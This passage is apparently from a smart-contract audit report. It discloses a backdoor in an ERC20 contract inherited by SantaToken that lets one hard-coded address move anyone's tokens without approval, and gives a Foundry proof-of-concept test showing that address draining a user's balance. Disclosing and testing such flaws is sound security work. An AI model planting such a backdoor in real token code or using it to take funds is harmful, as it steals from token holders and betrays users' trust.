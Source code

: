 ```cpp

    return true;
}
```

## Impact
This vulnerability allows the attacker (with the ethereum adress - `0x815F577F1c1bcE213c012f166744937C889DAF17`) to arbitrarily transfer tokens from any address to any other address without requiring approval from the `from` address to attacker's address. This can lead to significant financial loss for token holders and can undermine the trust in the SantaToken.

Since the malicious code is present in ERC20 contract which is inherited in `SantaToken` which will allow the attacker to arbitrarily transfer SantaToken from any address to any other address and use the stolen SantaToken to buy present. Furthermore, if there are any other services which can be availed with SantaToken, then attacker can benefit from all of them.

## PoC
Add the test in the file: `test/unit/SantasListTest.t.sol`.

Run the test:
```cpp
forge test --mt test_ElvesCanTransferTokenWithoutApprovals
```

```cpp
function test_ElvesCanTransferTokenWithoutApprovals() public {
    // address of the south pole elves
    address southPoleElves = 0x815F577F1c1bcE213c012f166744937C889DAF17;

    vm.startPrank(santa);

    // Santa checks user once as EXTRA_NICE
    santasList.checkList(user, SantasList.Status.EXTRA_NICE);

    // Santa checks user second time
    santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);

    vm.stopPrank();

    // christmas time 🌳🎁  HO-HO-HO
    vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME()); 

    // User collects their NFT and tokens for being EXTRA_NICE
    vm.prank(user);
    santasList.collectPresent();

    // Now the user have some SantaTokens
    uint256 userBalance = santaToken.balanceOf(user);
    assertEq(userBalance, 1e18);

    // user needs to give approval to others in order to move tokens to other addresses via 'transferFrom'
    // but the south pole elves can move tokens of anyone without approval permissions
    vm.prank(southPoleElves);
    bool success = santaToken.transferFrom(user, southPoleElves, userBalance);

    assert(success == true);
    assertEq(santaToken.balanceOf(user), 0);
    assertEq(santaToken.balanceOf(southPoleElves), userBalance);
}
```
